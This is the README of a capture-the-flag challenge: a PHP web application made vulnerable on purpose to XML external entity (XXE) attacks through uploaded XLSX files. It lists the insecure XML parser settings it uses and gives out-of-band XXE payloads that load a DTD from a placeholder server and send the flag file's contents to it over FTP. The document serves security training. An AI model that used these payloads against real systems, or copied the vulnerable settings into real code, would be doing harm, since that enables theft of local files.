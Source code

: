 # XXE CTF Challenge - XLSX Upload

A Capture The Flag (CTF) web application vulnerable to XML External Entity (XXE) attacks through XLSX file uploads.

## 🎯 Challenge Overview

This web application allows users to upload Excel (.xlsx) files for processing. The application extracts and processes XML content from within the XLSX files, making it vulnerable to XXE attacks.

## 🏗️ Architecture

```
CTF-ZIP/
├── public/              # Web root directory
│   ├── index.php       # Main upload page
│   ├── upload.php      # File upload handler
│   └── results.php     # Results display page
├── includes/           # PHP includes
│   ├── config.php      # Configuration settings
│   └── functions.php   # Vulnerable XML processing functions
├── uploads/            # Temporary upload directory
├── flag.txt           # The flag to capture
└── README.md          # This file
```

## 🔍 Vulnerability Details

The application is intentionally vulnerable to XXE attacks in the following ways:

1. **XML Entity Processing**: The `processXMLFile()` function enables external entity resolution
2. **Multiple Attack Vectors**: Vulnerable in `workbook.xml`, `sharedStrings.xml`, and worksheet files
3. **Entity Loader**: `libxml_disable_entity_loader(false)` explicitly enables external entities
4. **XML Flags**: Uses `LIBXML_NOENT | LIBXML_DTDLOAD` flags for entity processing

## 🎮 How to Play

### For Players:
1. Access the web application at your target domain
2. Create a malicious XLSX file with XXE payload
3. Upload the file and extract the flag

### Example XXE Payload Structure:

#### In `xl/workbook.xml`:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://YOUR_SERVER:8000/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
```

#### In `xl/sharedStrings.xml`:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT t ANY ><!ENTITY % asd SYSTEM "http://YOUR_SERVER:8000/xxe.dtd">%asd;%c;]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="10" uniqueCount="10">
<si><t>&rrr;</t></si>
</sst>
```

#### External DTD (`xxe.dtd`):
```xml
<!ENTITY % d SYSTEM "file:///path/to/flag.txt">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://YOUR_SERVER:2121/%d;'>">
```

## 🚀 Deployment

### Requirements:
- PHP 7.4+ with XML and ZIP extensions
- Web server (Apache/Nginx)
- Domain: `abphz.tech`
- Server IP: `91.228.186.44`

### Setup Instructions:

1. **Clone the repository:**
```bash
git clone <repository-url>
cd CTF-ZIP
```

2. **Configure web server:**
   - Point document root to `public/` directory
   - Ensure PHP extensions are enabled: `xml`, `zip`, `dom`

3. **Set permissions:**
```bash
chmod 755 public/
chmod 777 uploads/
```

4. **Deploy to server:**
```bash
rsync -avz . user@91.228.186.44:/var/www/abphz.tech/
```

### Server Setup with xxeserv:

To capture XXE payloads, use `xxeserv`:

```bash
# Install xxeserv
go get github.com/staaldraad/xxeserv

# Run server to capture payloads
xxeserv -o files.log -p 2121 -w -wd public -wp 8000
```

## 🔧 Configuration

Edit `includes/config.php` to customize:
- Domain and IP settings
- File upload limits
- Flag content
- Upload directory paths

## ⚠️ Security Warning

**This application is INTENTIONALLY VULNERABLE and should ONLY be used in controlled CTF environments.**

**DO NOT deploy this in production or on systems containing sensitive data.**

## 🎯 Target Information

- **Domain**: abphz.tech
- **IP**: 91.228.186.44
- **Flag Format**: `flag{...}`
- **Challenge Type**: Web Application Security - XXE

## 🏆 Solution Hints

1. XLSX files are ZIP archives containing XML files
2. The application processes XML content without proper entity validation
3. External entities can be used to read local files
4. The flag is located in a predictable location
5. Use tools like `7z` to extract/modify XLSX structure

## 📚 Learning Resources

- [OWASP XXE Prevention](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
- [PortSwigger XXE Tutorial](https://portswigger.net/web-security/xxe)
- [PayloadsAllTheThings XXE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

## 📄 License

This CTF challenge is provided for educational purposes only.
